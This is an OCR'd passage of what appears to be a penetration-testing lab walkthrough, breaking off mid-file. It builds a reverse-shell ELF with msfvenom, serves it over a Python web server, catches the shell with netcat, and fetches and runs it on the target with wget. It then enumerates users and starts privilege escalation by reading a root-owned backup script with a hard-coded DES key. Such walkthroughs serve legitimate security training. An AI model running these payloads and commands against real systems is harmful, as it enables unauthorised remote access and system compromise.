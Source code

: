 ```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.186 LPORT=5000 -f elf -o rshell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rshell.elf

sudo python3 -m http.server 80

sudo nc -nvlp 5000

wget http://192.168.49.186/rshell.elf -O /tmp/rshell.elf
chmod +x /tmp/rshell.elf
/tmp/rshell.elf
```

```bash
id

# output
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

```bash
cat /etc/passwd | grep bash

# output
root:x:0:0:root:/root:/bin/bash
jerry:x:1000:1000:jerry,,,:/home/jerry:/bin/bash
```

### Privilege Escalation
```bash
ls -al /opt/backups

# output
total 48
drwxr-xr-x 4 root root  4096 Jun  2  2020 .
drwxr-xr-x 3 root root  4096 Jun  2  2020 ..
drwxr-xr-x 2 root root  4096 Jun  2  2020 __pycache__
-rwxr-xr-x 1 root root   929 Jun  2  2020 backup.py
drwxr-xr-x 2 root root  4096 Jun  2  2020 data
-rw-r--r-- 1 root root 27514 Jun  1  2020 des.py
```

```python
# vim backup.py

import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
```